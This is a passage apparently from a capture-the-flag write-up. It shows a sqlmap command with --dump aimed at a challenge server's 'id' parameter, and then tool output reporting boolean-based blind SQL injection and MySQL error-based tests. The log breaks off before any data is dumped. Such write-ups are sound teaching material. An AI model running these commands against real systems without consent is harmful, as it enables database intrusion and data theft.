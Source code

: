 ![](10.png)


Yup there was. I used `sqlmap` for automatic SQL injection [3]. It is an awesome tool, it detected everything by itself and returned all the useful information:

```bash
$ sqlmap -u http://206.189.17.51:30500/portfolio.php?id=1 --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:01:34 /2021-01-01/

[17:01:34] [INFO] testing connection to the target URL
[17:01:34] [INFO] checking if the target is protected by some kind of WAF/IPS
[17:01:34] [INFO] testing if the target URL content is stable
[17:01:35] [INFO] target URL content is stable
[17:01:35] [INFO] testing if GET parameter 'id' is dynamic
[17:01:35] [INFO] GET parameter 'id' appears to be dynamic
[17:01:35] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable
[17:01:35] [INFO] testing for SQL injection on GET parameter 'id'
[17:01:35] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[17:01:36] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="sit")
[17:01:38] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[17:01:47] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[17:01:47] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[17:01:47] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[17:01:47] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[17:01:47] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[17:01:47] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
```